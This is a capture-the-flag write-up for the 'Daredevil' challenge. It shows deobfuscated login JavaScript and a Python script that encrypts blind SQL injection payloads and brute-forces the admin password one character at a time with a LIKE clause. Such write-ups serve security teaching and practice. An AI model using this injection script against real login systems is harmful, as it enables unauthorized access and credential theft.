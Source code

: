 ### Daredevil

![Daredevil CTFD](../.assets/daredevil.png)

The challenge description made it obvious it was an SQLI challenge. Trying the basic payload makes it clear there's no logging in. 
![Basic Payload](../.assets/daredevil_1.png)

Notably, trying an incorrect username/password returns a different output. Blind SQLI.
![Incorrect creds](../.assets/daredevil_3.png)

The request that was sent out is encrypted similarly to the mystique challenge.
![Request sent](../.assets/daredevil_2.png)

Using an online js deobfuscator tool makes the js source code more readable.

```javascript
// Stripped to important part of code
function setPublicKey() {
    var key = `-----BEGIN PUBLIC KEY-----
  MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAvKY9bxWNNQtoCukVNJuF
  Ap5sxruDlsoglCvKGwV92zke7P514+nFshua5m2FGXW3aLTUwy6Fh2CnH5sIz7EX
  MS3DvZ/VT8yJfRZtbTN8MdzynRrYJt6MofVP3fOjoxGi86rhKUV30tneOJxYT+tz
  izDWIlTL3dqC01gcpGbJTviWNTDyvYkXvV7ybo9krYz5GeU3X49unkyyKJ+IJA51
  2Zg254eb064SIsYLP60rHLoCgh0gws33wiqIFEIBVpMn8+V1cxB8iVLcNl88lWMN
  EgcqK/hKHFBkBCJ0YWit5Zdn19vA+kdC0G7TvpiKeB8wXX3Zcn5+TbCPaJCp2r08
  TwIDAQAB
  -----END PUBLIC KEY-----`;

  var jsEncryptedKey = new JSEncrypt()
  return jsEncryptedKey.setPublicKey(key), jsEncryptedKey
}

function encryptData(encrypt, data) {
  var dataToEncrypt = data;
  var encryptedData = encrypt.encrypt(dataToEncrypt);
  return encryptedData;
}

function sendEncryptedData(encryptedData) {
  var request = new XMLHttpRequest()
  request.open('POST', '/Flag', true)
  request.setRequestHeader(
    'Content-Type',
    'application/x-www-form-urlencoded'
  )
  request.onreadystatechange = function () {
    if (request.readyState === 4 && request.status === 200) {
      var message = document.getElementById('output')
      message.textContent = request.responseText
    }
  }

  request.send('data=' + encodeURIComponent(encryptedData))
}

function login() {
  var publicKey = setPublicKey(),
    username = document.getElementById('username').value,
    password = document.getElementById('password').value,
    credentials = username + ':' + password,
    encryptedData = encryptData(publicKey, credentials)
  sendEncryptedData(encryptedData)
}
```

The password of the admin user can be bruteforced using the like keyword `admin' and password like '%'--` 

Here's a quick python3 script to do that

```python
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_v1_5 as Cipher_PKCS1_v1_5
from base64 import b64decode,b64encode
import requests
import string

flag_chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}_" #chars used in other flags
admin_pass = ""

def set_public_key():
    key = """
    MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAvKY9bxWNNQtoCukVNJuF
    Ap5sxruDlsoglCvKGwV92zke7P514+nFshua5m2FGXW3aLTUwy6Fh2CnH5sIz7EX
    MS3DvZ/VT8yJfRZtbTN8MdzynRrYJt6MofVP3fOjoxGi86rhKUV30tneOJxYT+tz
    izDWIlTL3dqC01gcpGbJTviWNTDyvYkXvV7ybo9krYz5GeU3X49unkyyKJ+IJA51
    2Zg254eb064SIsYLP60rHLoCgh0gws33wiqIFEIBVpMn8+V1cxB8iVLcNl88lWMN
    EgcqK/hKHFBkBCJ0YWit5Zdn19vA+kdC0G7TvpiKeB8wXX3Zcn5+TbCPaJCp2r08
    TwIDAQAB
    """
    keyDER = b64decode(key)
    public_key = RSA.importKey(keyDER)
    cipher = Cipher_PKCS1_v1_5.new(public_key)
    return cipher

# Function to encrypt data
def encrypt_data(cipher, data):
    encrypted_data = cipher.encrypt(data.encode())
    return encrypted_data

# Function to send encrypted data
def send_encrypted_data(encrypted_data):
    response = requests.post(
        url='https://afr1cacyb3rfe5t-daredevil.chals.io/login',  # Chall url
        headers={'Content-Type': 'application/x-www-form-urlencoded'},
        data={'data': b64encode(encrypted_data)}
    )
    if response.status_code == 200:
        return response.text
    else:
        print(f"Request failed with status code: {response.status_code}")
        print(response.text)
        print(admin_pass)
        exit(1)

# Function to handle login
def login(username, password):
    cipher = set_public_key()
    credentials = f"{username}:{password}"
    encrypted_data = encrypt_data(cipher, credentials)
    output = send_encrypted_data(encrypted_data)
    return output

# Example usage
while True:
    for CHAR in flag_chars:
        output = login(f"admin' and password like '{admin_pass}{CHAR}%'--", "password")
        if "Login for" in output:
            admin_pass = admin_pass + CHAR
            print(admin_pass)
            break
```

